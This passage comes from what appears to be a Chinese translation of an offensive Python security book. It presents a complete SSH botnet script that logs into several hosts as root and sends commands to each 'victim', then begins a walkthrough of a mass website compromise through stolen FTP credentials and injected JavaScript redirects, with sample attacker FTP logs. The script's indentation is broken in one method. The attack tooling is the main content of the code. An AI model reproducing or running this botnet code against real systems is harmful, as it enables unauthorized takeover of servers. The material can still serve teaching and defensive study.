 ```
# coding=UTF-8
import optparse
import pxssh
class Client:
    def __init__(self, host, user, password):
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()
    def connect(self):
        try:
            s = pxssh.pxssh()
            s.login(self.host, self.user, self.password)
            return s
        except Exception as e:
            print(e)
            print('[-] Error Connecting')
    def send_command(self, cmd):
    self.session.sendline(cmd)
    self.session.prompt()
    return self.session.before
def botnetCommand(command):
    for client in botNet:
        output = client.send_command(command)
        print('[*] Output from ' + client.host)
        print('[+] ' + output + '\n')
def addClient(host, user, password):
    client = Client(host, user, password)
    botNet.append(client)
botNet = []
addClient('10.10.10.110', 'root', 'toor')
addClient('10.10.10.120', 'root', 'toor')
addClient('10.10.10.130', 'root', 'toor')
botnetCommand('uname -v')
botnetCommand('cat /etc/issue') 
```

通过包装前面的内容，我们得到了我们最后的僵尸网络的脚本。这提供了一个极好的控制大量主机的方法。为了测试，我们生成了 3 台 Backtrack5 的虚拟主机作为目标。我们可以看到我们的脚本遍历三台主机并发送命令给每个受害者。SSH 僵尸网络的生成脚本是直接攻击服务器。下一节我们集中在间接攻击向量位目标，通过脆弱的服务器和另一种方法建立一个集体感染。

## 通过 FTP 连接 WEB 来渗透

在最近的一次巨大的损害中，被称为 k985ytv 的攻击者，使用匿名和盗用的 FTP 凭证，获得了 22400 个域名和 536000 被感染的页面。利用授权访问，攻击者注入 Javascript 代码，使好的首页重定向到乌克兰境内的恶意页面。一旦受感染的服务器被重定向到恶意的网站，恶意的主机将会在受害者电脑中安装假冒的防病毒软件，并窃取受害者的信用卡信息。K985ytv 的攻击取得了巨大的成功。在下面的章节中，我们将用 Python 来建立这种攻击。

检查受感染服务器的 FTP 日志，我们看看到底发什么什么事。一个自动的脚本连接到目标主机以确认它是否包含一个名为`index.htm`的默认主页。接下来攻击者上传了一个新的`index.htm`页面，可能包含恶意的重定向脚本。受感染的服务器渗透利用任何访问它页面的脆弱客户机。

```
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "LIST /
    folderthis/folderthat/" 226 1862
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "TYPE I"
    200 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "PASV"
    227 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "SIZE
    index.htm" 213 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "RETR
    index.htm" 226 2573
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "TYPE I"
    200 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "PASV"
    227 -
```